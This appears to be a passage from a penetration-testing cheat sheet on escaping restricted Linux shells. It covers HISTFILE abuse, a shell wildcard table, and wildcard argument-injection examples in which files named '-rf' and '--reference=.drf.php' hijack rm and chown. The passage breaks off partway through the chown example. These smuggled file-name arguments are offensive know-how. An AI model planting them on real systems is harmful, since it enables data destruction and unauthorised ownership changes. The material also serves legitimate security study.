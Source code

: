 - If `HISTFILE` and `HISTSIZE` are writable:
  - Set `HISTFILE` to the file you want to overwrite (preferably an executable)
  - Set `HISTSIZE` to 0 and then back to 100,
  - Then execute the lines you want in your shell script
- <https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells>
- <https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/>

**Wildcards**

| Char | Description    |
| :--  | :------------- |
| *    |  Any number of characters, including none. |
| ?    |  Any single character. |
| [ ]  |  Set of characters, any one of which may match a single character at that position. |
| -    |  Used within [ ] denotes a range of characters. |
| ~    |  At the beginning of a word expands to the name of your home directory.  If you append another user's login name to the character, it refers to that user's home directory. |

- Using wildcard to inject arguments
    ```bash
    # ls -al
    drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR1
    drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR2
    -rw-rw-r--.  1 leon   leon      0 Oct 28 17:03 file1.txt
    -rw-rw-r--.  1 leon   leon      0 Oct 28 17:03 file2.txt
    -rw-rw-r--.  1 nobody nobody    0 Oct 28 16:38 -rf

    # rm *
    # ls -al
    -rw-rw-r--.  1 nobody nobody    0 Oct 28 16:38 -rf

    # strace rm *
    execve("/bin/rm", ["rm", "DIR1", "DIR2", "file1.txt", "file2.txt", "-rf"], [/* 25 vars */]) = 0
    ```
- chown
    ```nash
    --reference=RFILE
            use RFILE's owner and group rather than specifying OWNER:GROUP values
    ```
    ```bash
    # ls -la
    -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
    -rw-rw-r--.  1 user user  117 Oct 28 17:35 inc.php
    -rw-rw-r--.  1 user user  111 Oct 28 17:38 index.php
    -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
